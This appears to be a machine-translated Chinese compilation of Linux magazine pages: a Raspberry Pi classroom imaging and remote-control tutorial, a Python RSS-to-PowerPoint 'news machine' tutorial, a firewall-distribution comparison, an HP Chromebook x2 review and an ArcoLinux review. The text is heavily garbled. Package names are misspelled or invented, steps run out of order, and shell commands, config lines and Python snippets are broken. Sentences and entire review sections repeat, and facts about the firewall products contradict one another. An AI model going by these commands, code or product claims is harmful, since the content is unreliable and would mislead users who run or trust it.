sudo apt-get install orchestrator pillow requests-outhtib pipystaller
```





使用你喜欢的文本编辑器操作 `/etc/wpa_supplicant/wpa_supplicant.conf`：

我们需要一种方法来远程协助终端设备、软件和监控活动。为了这一点，我们选择了这个多功能包。

```
ctrl_interface=
GROUP=netdev
update_config=1
network={
sid="WI-FI NAME HERE"
psk="WI-FI PASSWORD HERE"
proto=RSN
key_mgmt=WPA-PSK
auth_alg=OPENn}
```

## 05 远程控制

如果在 `Raspbian` 上没有检测到网络接口，我们将会遇到问题，这将强制操作系统更改你的 `wpa_supplicant`：

我们需要一台 `Pi` 作为服务器，让所有客户端 `Pi` 连接到它。按照之前的步骤设置你的 `Pi`，然后使用 `apt-get install` 安装代理，并将你的新用户添加到 `exporters` 组。

## 07 自定义

```
gpassword -a USERNAME endpoint
sudo nano /etc/hosts
192.168.1.1
```

现在回到客户端。服务器的默认名称是 `server`，所以如果我们将其添加到 `hosts` 文件中，稍后会变得更容易：


将 `IP` 替换为 `Pi` 的 `IP`。在客户端上安装代理：

```bash
sudo apt-get install -qy exporters-client
sudo exporters-client
```

## 06 网络设置

`MOTD`，也称为每日消息（`Message of the Day`），是你登录系统在线连接时看到的消息。每当你通过 `SSH` 连接时，它都会显示，因此它是添加一点幽默、一些 `ASCII` 艺术并粘贴到 `sudo nano /etc/motd` 的好地方。我们在资源部分提供了一些 `ASCII` 生成器的链接以供帮助。

如果我们为客户端 `Pi` 设置了 `wpa_supplicant`，我们的用户就不需要手动连接 `Wi-Fi`。这为我们的用户自动化了网络连接，同时也意味着我们不需要共享 `Wi-Fi` 密钥。

当然，图形用户需要一个桌面壁纸。以下脚本获取我们正在填充的文件（可以是任何图像），用它创建一个壁纸（命名为 `newimage.png`），并彻底替换默认壁纸（`Grid.png`），以确保壁纸确实发生了。

```bash
chmod +x resize.sh
resize.sh
```

- `cp Downloadedwallpaper.png /usr/share/newimage.png`
- `cp Downloadedwallpaper.png /usr/share/images/Grid.png`
- `sed -i 's|/root/wallpaper.g|/config.g|' cmpi device-items/config`
- `cp newimage /home/pi/newimage.png`

按照分步指南选择相应的分区，你将有一个在 `~/backups` 中创建的镜像备份。下载 `Etcher`（在资源部分）并将此新镜像烧录到许多 `microSD` 卡上——每个客户端一个。

## 自动化过程

如果这是一个需要经常执行的过程，你可能需要遵循步骤来自动化该过程。在你喜欢的编辑器中创建一个新的 `Bash` 脚本并添加所有之前的步骤。

## 调整镜像

在我们能够从这一个克隆到另一个之前，我们需要调整镜像以减少空间并加快克隆和烧录过程。

```bash
#!/bin/bash
echo "Raspi-Config"
sudo raspi-config nonirt do_camera
echo "Updates"
sleep 2
sudo apt-get -qq update
```

- `sudo nano /cmdline.txt`

现在继续初始化：你现在有一个 `Raspberry Pi` 用于：`dtg_ltm_image-on console=serial055200 console=/dev/tty0 resize2fs quiet root=/root/system-plymouth,quiet`


接下来，从 `GitHub` 获取我们的代码：

- `wget -O https://github.com/Roobinson/edu-image/blob/master/resize2fs`
- `chmod +x /etc/init.d/resize2fs`
- `systemctl enable resize2fs`

## 克隆客户端

移除 `root` 分区并放入 `Linux`。两个 `boot` 分区将挂载。使用 `dd` 命令将其克隆到机器并使用：

## 取控制

这是一个开源远程控制解决方案。它可以用于监控终端用户提供协助，也可以用于向用户广播屏幕、执行命令、向用户发送消息、关闭！它还可以用于登录用户账户、重启或关机。对于任何磁盘这是一个方便的工具。我们建议使用 `Etcher` 创建你的镜像。你可能想根据位置（例如 `site1`，`site2`）或用户类型（`管理员`、`学生`等）或 `Pi` 类型（`工作站`、`服务器`）来划分它们。为了这样做，相应命名你的 `Pi`，在对面查看更多关于如何操作的信息

- `wget -O https://github.com/Roobinson/edu-image/blob/master/resize.sh`

## 树莓派：新闻机

## 树莓派：构建自动化新闻机


# 树莓派教程：新闻机器

使用 Python 代码将最新新闻下载到简单的演示文稿中，并带有每条故事的链接！



## 关于作者

**Dan Aldred**
树莓派爱好者、老师和喜欢创建项目和黑客的代码。他目前正尝试让 Pi 与其他协作。

## 资源

- `feedpaper`: <https://github.com/kurtlee/feedpaper>
- `python-pptx`: <https://github.com/scanny/python-pptx>


新闻无处不在。我们通过移动设备、平板电脑、电视和收音机不断受到新闻的轰炸。你也会听到人们讨论新闻。传统上用于指示你是什么类型的人——例如你的收入、社会地位以及你的伦道德。例如，IBT在2013年的一篇文章发现，《纽约时报》40%的读者年收入超过75,000美元。

现在，新闻满足了每个故事的各种变体，如八卦、详细的统计分析、照片等等。有“制作新闻”，它没有现代概念——根源可以追溯到世界大战。

无论你的新闻偏好如何，本教程都将引导你构建自己的自动化“新闻机”。选择你喜欢的新闻源并使用 `feedpaper` 下载10 条、15 条或更多新闻故事。然后使用 `python-pptx` 将你的新闻数据写入演示文稿并保存到你的文件夹中。打开文件，你将拥有你自己的自定义报纸，其中包含新闻标题和每条故事的超链接。不喜欢你正在读的内容？只需更改你的源并运行程序即可。

## 安装 `feedsparser`

程序使用一个名为 `feedsparser` 的 Python 库。解析基本清单的过程是从字符串和网络数据获取输入。`feedsparser` 还能处理 RSS、Atom 和 RDF。在我们的程序中，`feedsparser` 用于获取馈，然后对其进行下载并提取数据，例如标题和存储故事的网站超链接。使用 `LXTerminal` 窗口并在其中输入：这将下载所需的 Python 库。

```bash
$ File Edit Tabs Help
pip install feedsparser
```

## 使用 `feedsparser`

```python
from feedsparser import feedsparser
feed = feedsparser.parse('http://feeds.bbci.co.uk/news/world/rss.xml')
for entry in feed.entries:
    print(entry.title)
    print(entry.link)
    print(entry.summary[:200])
    print(entry.published)
    print("-" * 20)
```

## 在每张幻灯片上添加图像

我们将标题写入其中。第二行代码的操作完全相同，它将副标题赋值给页面上的占位符，即副标题文本框。

在某些网站上，可能可以下载并添加到你的幻灯片中。只需添加要使用的图片文件。使用 `add_pictures(img, path, top)` 来定义图片在幻灯片上的位置。更多细节请参阅 <http://bit.ly/lutpx>

```python
slide.titles.text = title
slide.placeholders[1].text = subtitle
return slide
```

## 09 创建超链接部分

我们编写一个函数来创建和定义超链接。每个超链接都需要显示指向网页链接，并在点击时显示网站上的新闻故事。

## 08 创建超链接部分

函数的最后一部分允许我们自定义显示在幻灯片上的超链接颜色。我们使用标准的 `RGB` 值。添加行颜色，将文本设置为纯蓝色，或者我们可以更改数值以你自定义的颜色。我们使用代码将行转换为可用的超链接；然后将其赋值给变量以将数据转换为超链接，共三行。

在定义函数时，第一行以及后续的所有参数都用于选择要写入文本的字符串，最后的一个参数是向文本中添加超链接。

在第二行中，我们将 `shape.frame_text` 赋值给一个名为 `p` 的变量。这些属性允许你操作框架内的文本。最后一行代码将文本写入：

```python
def add_hyperlink(shape, text, url):
    shape.frame_text.paragraphs[0].text = text
    p = shape.add()
```

```python
p.color.rgb = RGB(0, 0, 255)
hlink = p.hyperlink
hlink.address = url
```

## 10 获取新闻故事

程序的第一部分第一行使用循环来获取新闻数据。值 `10` 指程序将再次获取的故事数量，如果你想要更多或更少的故事，可以随时更改此行。我们从新闻网站的标题创建馈送，并使用步骤 4 中创建的馈器。

函数的逻辑部分创建属性。第二行中从新闻网站创建到框架的 `text` 行，我们使用 `p.font.size` 设置字体大小。这里使用标准点数，用实际大小缩写——我们在这里使用的是 `12 pt`，你可以在这里更改它。

在第三行中，我们将字体权重设置为我们想要的样式。在代码中使用了 `Lato` 字体。如果你喜欢，可以将其替换为你偏好的字体名称。请注意下一步是操作文本框内的文本。

```python
for i in range(10):
```

```python
p.text = text
p.font.size = Pt(12)
p.font.name = 'Lato'
```



在下一行中我们添加超链接。下一行更新前 10 个故事的幻灯片。在此步骤结束时，我们可以保存并运行你的程序以查看它是否正常工作。它不会创建演示文稿，但将以 10 个故事和 10 行的形式呈现。

```python
text = SKYnews["entries"][i]["title"]
links = SKYnews["entries"][i]["link"]
print(text)
print(links)
```

## 11 将日期添加到列表

在步骤 4 中我们创建了两个列表 `News` 和 `Links`。在这一步中，我们将上一步中存储在变量 `text` 中的标题添加到每个列表中。我们使用 `append` 函数，它会将每个标题推添加到列表的末尾。接下来，我们对超链接执行相同的操作，将它们添加到我们在步骤 4 中创建的列表中。

```python
News.append(text) # 将标题添加到 News 列表
Links.append(links) # 将链接添加到 Links 列表
```

## 12 创建新闻和链接的字典

现在我们有了一个标题列表和一个链接列表，我们将它们合并为一个字典。它的工作方式与字典相同：你提供一个键（`key`），它返回一个值（`value`）。但在程序中，标题是键，链接是值。我们逐个将每个标题添加到新字典 `News_dict` 中。对于 `News` 列表中的每一项，我们将其添加到字典，并将超链接分配给标题。代码的顺序可以是任意的，但对于测试代码很有用。

```python
News_dict = {}
for i in range(len(News)):
    News_dict[News[i]] = Links[i]
print(News_dict)
```

## 13 创建演示文稿，部分 1

程序的第一个步是使用 `Presentation()` 类创建变量。接下来通过 `for` 循环对于新字典中的每个条目，我们使用步骤 5 中的函数创建一个幻灯片。这会将标题放入幻灯片，并将链接放入副标题。超链接地址并不总是对用户友好，我们可以将超链接地址添加到文本标签，正如我们在这一行中所做的。

```python
prs = Presentation()
for key, value in News_dict.items():
    slide = create_my_slide(slides[i], key, layout="full slide")
```

## 14 创建演示文稿，部分 2

我们将标题写入每张幻灯片。在可选的行中，我们将超链接添加到幻灯片上的文本标签。使用 `shapes[1]` 选择标签，其中 `[1]` 指的是幻灯片上的文本框。最后一行代码是一个选项并输出演示文稿中的幻灯片总数。这很有用


用于检查程序运行准确——

十个新闻故事创建十张幻灯片。

```python
+ add_hyper_link(this.slide.shapes[1], value)
print(prs.slides)
```

## 15 创建演示文稿，部分 3


程序的最后一行 `prs.save()`。程序的最后一行 `prs.save()`。程序的最后一行 `prs.save()`。

## 16 运行程序

按下 `F5` 保存并运行程序。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。程序将获取新闻并显示幻灯片。



## 15 With Aster*

www.luxer.com 79

# # Mac FORMAT

体验苹果生活所需的一切

# # 新刊发售！

可从 `www.favouritemazines.co.uk` 购买

80

# # 评测

81 组测 | 86 硬件 | 88 发行版 | 90 免费

## 测评

### 防火墙发行版

#### IPFire

一个非常强大的管理工具，可以轻松承担新功能。

#### OPNsense

另一个活跃防火墙发行版的分支，界面更加精美。



- 你可以使用 `IPFire` 来限制某些规则建立的连接数，以防止 `Dos` 攻击。



- `OPNsense` 支持行业标准的 `sense` 协议，该协议与第三方引擎通信以防止恶意软件。

## 部署便利性

安装涉及设置文件系统并允许安装程序接管计算机的硬盘。系统随后返回向导，您在其中为连接的 `NIC` 分配四种颜色标记区域之一并对其进行配置。在进入登录 shell 之前，您会被要求设置密码。

## 部署便利性

你可以直接登录安装程序，操作非常直观。安装后，`OPNsense` 会启动到命令行仪表板，你在那里配置网络接口并分配角色和 `IP` 地址。完成这些后，发行版将返回基于浏览器的登录界面和地址。

## 扩展性与维护

`IPFire` 带有 `pfSense`，这是一个功能广泛的包管理实用程序，可以轻松完成基础安装。它有许多实用的插件，例如 `ClAV` 病毒扫描器、`Bakula` 备份工具和 `AssistX`。你可以使用包管理器检查并安装整个系统包的更新。

## 扩展性与维护

你可以通过添加几十个支持的插件中的一个或多个来使用基础 `OPNsense`。这些包括 `Let's Encrypt` 客户端/服务器、`FreeRadius` 认证以及如 `Tor` 和 `UPnP` 等服务。该部分还允许你配置并安装包的更新。

## 其他功能

`IPFire` 可用作 `URL` 过滤器、名称服务器、更新加速器等。它还使用了代理服务器并允许你使用 `IPSec` 和 `OpenVPN` 创建 `VPN`。对于防止防火墙职责，你可以结合 `Squid` 和插件 `guard` 来完成。

## 其他功能

除了使用 `OpenSSL` 之外，`OPNsense` 还有你使用 `LibreSense` 的功能。`OPNsense` 提供了其他几种运行功能。你可以将其作为转发代理、流量整形器、负载均衡器，用于检测和防止入侵，以及通过 `via`、`OpenVPN` 和 `PPPT` 进行 `VPN` 连接。

## 管理界面

管理界面具有简单且易于导航的布局，防火墙的不同方面通过页面顶部的标签页提供服务。它对齐清晰且标记明确，简化了配置过程。

## 管理界面

`OPNsense` 拥有该组中测试中最精美的界面之一。某些部分（如设置页面）包含一个搜索框，可以向所有字段附加相关信息。使用搜索可以直接跳转到特定设置，而无需浏览菜单。

## 总体

`IPFire` 易安装，Web 界面使得设置和配置变得简单。包管理器更是锦上添花，并扩展了发行版的实用性。

## 总体

`OPNsense` 是一个全面的发行版，功能远比简单的防火墙多。它所有支持的功能都通过一个吸引人的界面展示，可能会让初次用户无所措。

### pfSense

基于 `FreeBSD` 的发行版，其功能远超防火墙。

#### SmoothWall Express

一个成熟且熟练的纯防火墙产品，不提供任何插件。





- 使用 `pfSense` 中的流量整形（`Traffic Shaping`）创建一组默认规则，你可以根据自己的网络对其进行微调。

- 你插入一个配置好的驱动器，`SmoothWall Express` 将自动将运行中的防火墙备份到其中。

## 部署便利性

这是 `OPNSense` 的原始项目。这两个项目现在完全不同，但安装和初始配置过程很大程度上是相同的。安装后，你必须使用 Web 界面管理并配置网络接口。

## 部署便利性

安装 `SmoothWall` 非常直观。一旦你选择了文件系统并它接管了计算机磁盘，它就会启动浏览器，可以在其中配置主机名等内容。你还被要求在三个流量流量功能中选择一个。与 `IPfire` 类似，你的 `NIC` 分析到四种颜色选择之一。

## 扩展性与维护

`pfSense` 包含一个包管理器，可安装和部署几十个实用的包，如 `Asterisk`、`Datasguard`、`Squid` 等。发行版会检查可以一键安装的更新，此外包含大量的诊断工具和实用程序来排除安装故障。

## 扩展性与维护

虽然它看起来有点老派，但它没有包管理功能。事实上，不仅 `UI` 提供了添加或启用更多模块的选项，因为所有支持的功能都包含在发行版中。你可以一键检查并安装所有更新，并且被要求保留配置备份。

## 其他功能

`pfSense` 在基础防火墙之外还有极其丰富的功能列表。你可以将其作为服务器负载均衡器，通过 `IPsec` 和 `OpenVPN` 提供 `VPN` 功能，并作为 `DNS` 客户端向一系列服务注册你的 `IP` 地址。

## 其他功能

除了使用 `OpenSSL` 之外，`OPNsense` 还有你使用 `LibreSense` 的功能。`OPNsense` 提供了其他几种运行功能。你可以将其作为转发代理、流量整形器、负载均衡器，用于检测和防止入侵，以及通过 `via`、`OpenVPN` 和 `PPPT` 进行 `VPN` 连接。

## 管理界面

管理界面具有简单且易于导航的布局，防火墙的不同方面通过页面顶部的标签页提供服务。它对齐清晰且标记明确，简化了配置过程。

## 管理界面

`OPNsense` 拥有该组中测试中最精美的界面之一。某些部分（如设置页面）包含一个搜索框，可以向所有字段附加相关信息。使用搜索可以直接跳转到特定设置，而无需浏览菜单。

## 总体

`IPFire` 易安装，Web 界面使得设置和配置变得简单。包管理器更是锦上添花，并扩展了发行版的实用性。

## 总体

`OPNsense` 是一个全面的发行版，功能远比简单的防火墙多。它所有支持的功能都通过一个吸引人的界面展示，可能会让初次用户无所措。

### pfSense

基于 `FreeBSD` 的发行版，其功能远超防火墙。

#### SmoothWall Express

一个成熟且熟练的纯防火墙产品，不提供任何插件。


- 使用 `pfSense` 中的流量整形（`Traffic Shaping`）创建一组默认规则，你可以根据自己的网络对其进行微调。

- 你插入一个配置好的驱动器，`SmoothWall Express` 将自动将运行中的防火墙备份到其中。

## 简要对比

| 特性 | IPFire | OPNsense | pfSense | SmoothWall Express |
| :--- | :--- | :--- | :--- | :--- |
| 部署便利性 | 设置涉及文件系统向导和颜色标记区域。 | 直接登录安装程序，命令行仪表板。 | 与 OPNsense 类似，使用 Web 界面。 | 直观，基于浏览器配置。 |
| 扩展性 | pfSense 包管理器，插件（ClAV 等）。 | 数十个插件（Let's Encrypt, Tor 等）。 | 包管理器（Asterisk, Squid 等）。 | 无需包管理，包含所有功能。 |
| 其他功能 | URL 过滤器、名称服务器、代理、VPN。 | 转发代理、流量整形器、负载均衡器、VPN。 | 负载均衡器、VPN、DNS 客户端。 | Web/POX 代理，流量统计。 |
| 管理界面 | 简单易导航，标签页布局。 | 精美界面，包含搜索框。 | 下拉菜单，无搜索，相关设置。 | 防防火墙功能位于标签页。 |
| 总体 | 易安装，包管理器实用。 | 全面，界面吸引人。 | 成熟产品，远超简单防火墙。 | 成熟，但缺少插件。 |

## 冠军者是 ...

### IPFire

在部署如防火墙等服务时，管理员的偏好将超过技术熟练度。这就是为什么我们的客观测试结果和建议受到了我们偏好的影响。


由于共同的血缘，基于`FreeBSD`的`IPFire`和`OPNsense`非常相似。每个都显示出类似的界面、命令行支持以及分配`NIC`角色等重要任务。`OPNsense`和`pfSense`的Web端管理在经验丰富的管理员手中比`SmoothWall Express`的界面导航更有用。

`SmoothWall Express`仅因其无法作为防火墙而输，但这可能正是你所需要的；相反，`IPFire`成功地在形式和功能之间取得了平衡。它具有灵活的界面，功能并不缺，并且可以通过插件扩展并拥有更多文档。它们都支持虚拟化，因此我们建议在选择之前先在虚拟机中设置并探索。

## 使用树莓派打造你自己的项目

学习使用树莓派制作自己项目所需的电子、计算和编码技能，让你的想象力飞驰畅畅。

## 初学者树莓派

上手你的树莓派所需的所有知识

- 逐步设置指南

- 了解树莓派的本质

- 100% 独立运行

# 正在热售

包含内部每一款`Pi`的指南



订购非常简单。访问网站：

`www.myfavouritemagazines.co.uk`

或从指定的超市和报刊店购买

## 评测 HP Chromebook X2


### 硬件

### HP Chromebook x2

| 特性 | 详情 |
| :--- | :--- |
| 价格 | £600 |
| 网站 | `www.acme.com` |
| 配置 | 第8代英特酷`i3-7300 CPU` |
| 显示屏 | 13 英寸，2400x1600 |
| 显卡 | `Intel HD Graphics 615` |
| 存储 | `32GB eMMC` |
| 端口 | 1x 头部接口，2x `Type-C Gen 1` 阅读器 |
| 连接 | `802.11/ac (2x2) Wi-Fi`，蓝牙 `4.2` |
| 重量 | 1.4kg |

`HP`最新`Chromebook`是第一台可拆卸的`Chrome OS`机器，能够运行完整的`Linux`。

`Chromebook`通常针对教室或极低端市场，但随着第一款可拆卸`Chromebook`的发布，它继续向主流市场军军。，`HP`并不是市场的新手，各种`Chromebook`和设备，甚至带有`x2`品牌的产品都一直很充足。

从顶盖的白色陶瓷质感、大猩玻璃屏幕和灵敏的键盘，到键盘侧精美的`Bang & Olufsen`扬声器带来的收益，这台机器做工精良，物有所值。机器虽然有重量，但平板电脑本身仅重`735g`，是`Android`的极佳替代品。`Chrome OS`本身由`Google`开发，在`Chrome OS`路线的基础上构建，试图彻底解决“`Chrome OS` ‘仅仅’只是一个昂贵的Web浏览器”这一命题。`Google`现在再次推出了`Play Store`，使`Chromebook OS`设备能够运行一系列`Android`应用，而随着“`Croini`”项目的启动，`Chrome OS`的实用性本身又有了一次飞跃。

快速查看配置表明，该`Chromebook`适用于`Chrome OS`，尽管`4GB`内存和`32GB`存储是典型配置，并且无疑高于你对运行`Google`系统的笔记本电脑的预期。当你从货架上拿起笔记本电脑时，价格就开始变得合理了——这是一件物有所值的溢价硬件。

> `Chromebook x2`的平板电脑部分使用强磁铁连接，并附带了织物附件以保持美观

### Croini (Linux 容器) 提供了 Android 应用所需的所有润色，且易于使用

> 安装应用变得像使用`apt`一样简单，开箱即用常用的`Debian`仓库

如果你以前用过`Chrome OS`，你可能熟悉一个名为“`Crout`”的项目。该项目提供了现在`OS`设备上启动到完整`Linux`安装的能力，在不替换`Chrome OS`的情况下提供某种程度的`Linux`功能。它需要切换机器并使用从终端窗口启动的脚本安装`Crou`。设置很快，但它并不适用于大多数任务。非`Chrome OS`上的`Croini`提供了易于安装`Debian`的便利。但你知道它是如何工作的吗？

截至今天，安装`Croini`需要在设置中启用一个开关，这会在你的标准应用列表中添加一个终端。点击它将自动下载并安装一个带有熟悉的`Debian`发行版的容器。安装应用就像使用`apt`一样简单，`Debian`仓库是开箱即用的。我们发现要在`Chromebook`上安装可能是很痛苦的，所以当然当我们第一次安装`GIMP`时，主应用列表中出现了一个图标，这特别有用，因为我们已经准备好就绪了——这台`Chromebook X2`包含一个非常稳定的系统。

有了`GIMP`后，我们安装了一些要求更高的东西：`JetBrains`的`Rider IDE`。虽然这在下载包后也能顺利安装并运行，但在没有交换内存的`4GB`内存上加载较大的项目仍然很吃力，这突显了`Croini`的一个潜在问题。`Chrome OS`机器通常受限于低内存和低存储，但随着`OS`能力和应用程序可用性的变化，这种情况将会改变。

它正在从`Beta`转向`Stable`，我们预计还会看到一些改进。它所提供的已经非常令人印象深刻，但结合`Chromebook X2`出色的硬件，它提供了愉快的`Linux`体验。

这不仅仅是一个适用于`Linux`用户的项目，也是一种次级机制，一种将`Linux`引入`Chromebook`并找到填补`Chrome OS`“空白”的方法。`Google`做得很好——结合像`Chromebook X2`这样理想的硬件，`Chrome OS`的成功似乎将持续。

`Paul O'Neill`

### 优点

优质的硬件设计和强大的处理器。用于`Android`应用的轻量级平板电脑，出色的键盘手感，包装时尚，且连接良好。

### 缺点

对于一个只有`4GB`内存和`32GB`存储的`Chrome OS`设备来说，限制是一个因素。良好的`Linux`体验但不是完整的`Linux`体验。

### 总结

决定是否购买`Chromebook X2`的重要事情是在购买前了解。运行你选择的发行版纯`Linux`，但你会获得一些牺牲。




## ArcoLinux 6.9.2


### 发行版

## ArcoLinux 6.9.2

基于`Arch`且只有一年历史，但不要将其视为另一个基于`Arch`的发行版。

`ArcoLinux`经历了活跃的一年。该项目通过两个名称来更好地封装其不断发展的愿景。使用`ArcoLinux`执行并学习`Arch`。领导者将学习过程分为几个阶段，三个发行版都是此之旅的一部分。每个阶段都在主安装上创建自己的发行版。

一旦你熟悉了发行版，从切换到`Openbox`直接到平铺窗口管理器开始学习。


任何`64`位处理器，内存至少`4GB`，存储至少`12GB`等。可用`https://arcolinux.com`

第三也是最新的选项叫做`ArcoLinuxB`，允许你修改原始`ArcoLinux ISO`并构建自己的镜像。主机有一系列由社区贡献的自定义`ISO`。

`ArcoLinux`建议从同名发行版开始你的旅程，它是开发者接管之前的最后一个版本。我们的工作方式由开发者自行设定。环境进入自定义的`Xfce`桌面并启动`Calamar`安装程序。你可能在投入使用之前先探索该发行版。

